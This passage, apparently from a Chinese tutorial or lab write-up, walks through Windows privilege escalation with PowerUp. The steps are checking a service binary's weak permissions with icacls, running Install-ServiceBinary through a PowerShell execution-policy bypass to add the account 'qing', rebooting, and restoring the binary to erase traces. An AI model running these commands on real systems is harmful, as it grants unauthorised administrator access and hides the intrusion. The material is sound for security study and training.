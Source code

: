 ## 3）检测可写入权限

这里我们可以使用 icacls（Windows 内建的一个工具，用来检查对有漏洞目录是否有写入的权限）来验证下 PowerUp 脚本检测是否正确，我们先对于检测出来的漏洞目录进行权限的检测

```
icacls "C:\Program Files\Windows Media Player\wmpnetwk.exe"    //检测此目录是否有可写入权限。
```

 ![](http://ww1.sinaimg.cn/large/007bHQE8gy1g5tftzde8sj30of07dq6h.jpg)

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g5tfv3z50tj30x508045b.jpg)

"Everyone" 用户对这个文件有完全控制权，就是说所有用户都具有全部权限修改这个文件夹。

参数说明："M" 表示修改，"F" 代表完全控制，"CI" 代表从属容器将继承访问控制项，"OI" 代表从属文件将继承访问控制项。这意味着对该目录有读，写，删除其下的文件，删除该目录下的子目录的权限。

## 4）提升权限

我们使用 AbuseFunction 那里已经给出的具体操作方式，执行如下命令操作，如下图所示。3

``````
powershell -nop -exec bypass IEX(New-Object Net.WebClient).DownloadString('c:/PowerUp.ps1');Install-ServiceBinary -ServiceName 'WMPNetworkSvc' -UserName qing -Password qing123!
``````

 之后当管理员运行该服务的时候，则会添加我们的账号。

知识点：Install-ServiceBinary模块的功能是通过Write-ServiceBinary写一个用于添加用户的C#服务。



手动输入：`shutdown -r -f -t 0` 进行重启。

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g5tg7py1uoj30cu05f76f.jpg)

重启以后，系统会自动创建了一个新的用户 qing，密码是 qing123!

![](http://ww1.sinaimg.cn/large/007bHQE8gy1g5tg84fp3vj30no05wq4g.jpg)

##  5）删除痕迹

提权成功后需要清除入侵的痕迹，可以使用以下命令：

```
powershell -nop -exec bypass IEX(New-Object Net.WebClient).DownloadString('c:/PowerUp.ps1');Restore-ServiceBinary -ServiceName 'WMPNetworkSvc' 
```

执行命令后可以把所有的状态恢复到最初的状态，

恢复

"C:\Program Files\Windows Media Player\wmpnetwk.exe.bak"为"C:\Program Files\Windows Media Player\wmpnetwk.exe"

移除备份二进制文件‘
